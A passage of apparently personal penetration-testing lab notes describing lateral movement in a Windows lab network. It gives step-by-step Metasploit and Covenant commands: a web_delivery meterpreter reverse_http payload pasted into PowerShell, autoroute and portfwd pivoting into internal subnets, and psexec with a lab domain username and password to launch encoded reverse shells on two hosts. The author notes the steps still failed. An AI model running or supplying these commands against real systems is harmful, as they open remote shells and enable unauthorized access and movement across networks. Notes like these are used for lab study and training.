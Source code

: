 ![image](https://0xc0rvu5.github.io/docs/assets/images/20221125031343.png)
```
- Paste the generated payload into the Windows host `powershell.exe` window
```
- On Kali:
	- `msfconsole`
		- `search web_delivery`
		- `use 1`
		- `set target 2` **this sets up a powershell.exe shell**
		- `set payload windows/x64/meterpreter/reverse_http`
		- `set lhost eth0`
		- `set lport 25`
		- `exploit -j`
		- Copy payload
	- Within the `Covenant` grunt session
		- `powershell copied_payload_here`
	- Back on `Metasploit`
		- `sessions -i 1`
		- `ipconfig`
		- `run autoroute -s 192.168.16.0/24`
		- `run autoroute -s 10.120.116.0/24`
		- Verify route is setup:
			- `run autoroute -p`
		- Port forward to access internal network devices that were not accessible before
			- `portfwd add -R -p 2222 -l 443 -L 192.168.3.28`
			- `portfwd add -R -p 2223 -l 8082 -L 192.168.3.28`
			- `CTRL+z`
- On `Covenant`
	- Create `EncodedPayload` for:
		- `Listeners`
			- `HTTP Listener`
			- `Reverse HTTP`
				- `192.168.16.4`
			- `reverse Listener2`
				- `10.120.116.20`
- On `Metasploit`
	- `use windows/smb/psexec`
	- `smbdomain mayorsec`
	- `smbuser themayor`
	- `smbpass Password123!`
	- `set payload windows/x64/exec`
	- `set rhost 192.168.16.4`
	- `set cmd reverse_EncodedLauncher_for_16.4`
	- `exploit`
	- `set rhost 10.120.116.10`
	- `set cmd reverse_EncodedLaundher_for_116.10`
	- `exploit`
- **Step by step follow for this instance and still failure. The only deviations were to meet the corresponding dynamic IPs on my system. 2 Covenant system level integrity shells both Workstation-01**

#hacking
